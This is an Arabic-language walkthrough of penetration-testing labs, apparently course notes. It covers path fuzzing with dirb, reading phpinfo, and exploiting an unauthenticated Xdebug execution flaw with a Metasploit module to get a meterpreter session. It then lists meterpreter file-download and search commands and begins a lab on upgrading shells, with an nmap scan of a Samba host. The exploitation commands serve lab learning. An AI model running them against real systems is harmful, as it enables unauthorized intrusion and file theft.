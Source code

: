 طبعا نشوف ان البورت 80 شغال وشغال عليه XODA وحنا نعرف انه مصاب  

طبعا الطبيعي انه تسوي fuzzing على المسارات عشان تشوف ايش المسارات الموجوده  

ف نجرب الان نسوي البروت فورس هذا  
```bash
dirb http://192.189.123.3
```  


طبعا حصلنا ملفات كثير اكثر ملف جذبنا او مهم هو الـ phpinfo راح نقراه باداة curl  
```bash
curl http://192.189.123.3/phpinfo.php
```  

ونشوف انه فيه اشياء كثير نشوف انه الـ xdebug مفعل وهذا مصاب راح نبحث ونشوف وبنحصل موديول على الـ msfconsole  

طبعا خلونا نختصر ونفتح الميتاسبلويت ونستغل الثغرة  
```bash
msfconsole
use exploit/unix/http/xdebug_unauth_exec
set RHOSTS 192.189.123.3 [target ip]
set LHOST 192.189.123.2 [attacker ip]
exploit 
```  

ونشوف انه عطانا meterpreter session  

طبعا راح بنشوف بعض الاوامرالي تفيدنا  
```bash
lpwd [your place on your machine]  
pwd [your place on target machine]  
ls [list all files and folders in your place on target machine]  
lls [list all files and folders in your place on your machine]  
downalod name_file.zip [to download any file to your machine from target machine]  
getenv PATH [shortcats for tools like (nmap,fuff) you don't need to be on the seem dir]  
search -d /usr/bin -f *ckdo*[راح يبحث عن الملف بنفس المسار الي محدده انت وبنفس المعطيات انه مايهم وش قبل او بعد الحروف الي هي ckdo مايهم وش قبلها ولا وش بعدها ورمزنا له بالنجمه]  
```  

طبعا هو رفع شيل الان لكن مافي فايده نسويه لكن نعرف طريقته اخذناه مسبقا وفوق موضح كيف تسوي upload  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب السابع الي هو  

Upgrading Command Shells To Meterpreter Shells 
-----------------------------------------------|  

طبعا في هذا اللاب بنعرف كيف نرقي الـ Shell to meterpreter session  

طبعا راح نشوف مع بعض هذا اللاب بنفحص الشبكه او ناخذ التارقت ونزيد اخر رقم 1 ونحصل التارقت  
```bash
nmap -sV -sC 192.136.51.3
```  

الان نشوف ان الـ samba شغال وباصدار 4.1.17 مصاب بثغره  
